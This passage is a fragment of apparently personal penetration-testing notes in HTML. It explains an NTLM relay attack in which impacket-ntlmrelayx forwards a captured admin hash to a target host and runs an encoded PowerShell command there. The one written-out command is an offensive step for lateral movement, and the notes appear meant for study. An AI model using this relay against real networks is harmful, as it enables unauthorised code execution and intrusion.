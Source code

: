 ```</p>
</li>
<li><strong>Relay Attack</strong><ul>
<li>Lets say you&#39;re in a situation where you&#39;re on a local admin account, but it&#39;s an admin on a different machine. Additionally, we can&#39;t crack the hash from the admin. </li>
<li>Instead of printing the hash, forward it along using <em>ntlmrelayx</em></li>
<li><code>sudo impacket-ntlmrelayx --no-http-server -smb2support -t {IP} -c &quot;powershell -enc {base64_command}&quot;</code><ul>
<li>This will set up an SMB relay to the IP with a powershell command to run</li>
<li>Run SMB <code>dir</code> from the machine we own against the <em>ntlmrelayx</em> machine, which will immediately pass the hash received onto the target machine</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
